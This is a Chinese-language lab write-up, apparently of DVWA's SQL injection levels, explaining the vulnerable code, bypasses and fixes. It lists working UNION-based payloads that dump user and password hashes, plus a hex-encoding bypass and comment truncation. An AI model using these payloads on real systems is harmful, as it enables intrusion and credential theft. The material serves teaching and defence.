




# SQL Injection

ID 输入框的内容被拼进 SQL 语句。拼进去的是语句本身，不是数据，所以输入 `1' OR '1'='1` 就能改变查询逻辑。

## 漏洞在哪

```php
$id = $_GET['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

`$id` 直接拼进 WHERE 条件，用户输入的单引号会闭合前面的引号，后面的内容变成语句的一部分。

## 等级对照

| 等级 | 防护 | 本机结果 |
|---|---|---|
| Low | 无 | 取到 users 表全部账号与哈希 |
| Medium | 输入转义，改 POST | 十六进制编码绕过，同样取到 |
| High | 加 `LIMIT 1` | 注释符截断，同样取到 |
| Impossible | 预编译 + 类型绑定 | 打不进去 |

## Low

| 项 | 内容 |
|---|---|
| 注入类型 | 字符型，`$id` 前后有单引号 |
| 判点 | 输 `1'` 报 `You have an error in your SQL syntax` |
| 列数 | `ORDER BY 3` 报错，说明只有两列 |
| 回显位 | `UNION SELECT 1,2` 页面显示 1 和 2 |

取数流程：

```sql
1' OR '1'='1
1' ORDER BY 2 --
1' UNION SELECT 1,2 --
1' UNION SELECT database(),user() --
1' UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=database() --
1' UNION SELECT column_name collate utf8_general_ci,2 FROM information_schema.columns WHERE table_name='users' --
1' UNION SELECT user,password FROM users --
```

最后一条返回 `admin` 与 `5f4dcc3b5aa765d61d8327deb882cf99`，MD5 对应 `password`。

两列显示不全时用 `concat()` 合并：

```sql
1' UNION SELECT user,concat(user,':',password) FROM users --
```





## Medium

| 项 | 内容 |
|---|---|
| 防护 | `mysqli_real_escape_string` 转义，前端改下拉框，请求改 POST |
| 注入类型 | 数字型，`$id` 无引号包裹 |
| 绕过 | 抓包改 `id=1 or 1=1`，下拉框限制失效 |
| 卡点 | 取字段名时 `'users'` 被转义，改用 `0x7573657273` |

```sql
1 or 1=1
1 union select 1,2
1 UNION SELECT column_name,2 FROM information_schema.columns WHERE table_name=0x7573657273
```

`mysqli_real_escape_string` 只处理引号，数字型注入不需要引号，转义等于无效。十六进制字面量被 MySQL 当字符串处理，绕开转义。

`column_name` 后面必须加 `collate utf8_general_ci`，否则排序规则冲突报错。整条 payload 要写成一行，换行会被当成参数分隔。







## High

| 项 | 内容 |
|---|---|
| 防护 | SQL 末尾加 `LIMIT 1`，参数改由 Session 传递 |
| 绕过 | 注释符切掉 `LIMIT 1`，语句结构回到 Low |
| 结果 | 与 Low 完全一致 |

```sql
1' OR '1'='1' #
1' UNION SELECT user,password FROM users --
```

`LIMIT 1` 限制的是返回行数，不是注入。它位于语句末尾，用 `#` 或 `-- ` 注释掉即可消除。

本机这一级没截图，页面表现与 Low 一致，多截一张看不出区别。

## Impossible

```php
$stmt = $db->prepare("SELECT first_name, last_name FROM users WHERE user_id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

语句在传参之前已经定型，用户输入只作为参数值参与比较。`1' OR '1'='1` 整串被当成一个字符串，引号无法闭合任何东西。

## 容易记错的地方

- `--` 后面必须跟一个空格，少了空格 MySQL 不认；`#` 没有这个要求。
- `ORDER BY 3` 的报错不是语法写错，是列数超了，这个报错本身就是信息。
- Medium 下引号被转义，单引号类 payload 全废，要立刻想到十六进制或 `char()`。
- `$id` 有没有引号决定注入类型，先看源码再选 payload，能少试一半。

## 怎么修

| 措施 | 作用 |
|---|---|
| 预编译 + 参数绑定 | 根治，语句与数据分离 |
| 类型强校验 | `filter_var($id, FILTER_VALIDATE_INT)`，非整数直接拒 |
| 数据库降权 | Web 账号只给单库单表查询权限，注入后拿不到别的数据 |
| 关闭错误回显 | SQL 报错只写日志，盲注失去判据 |
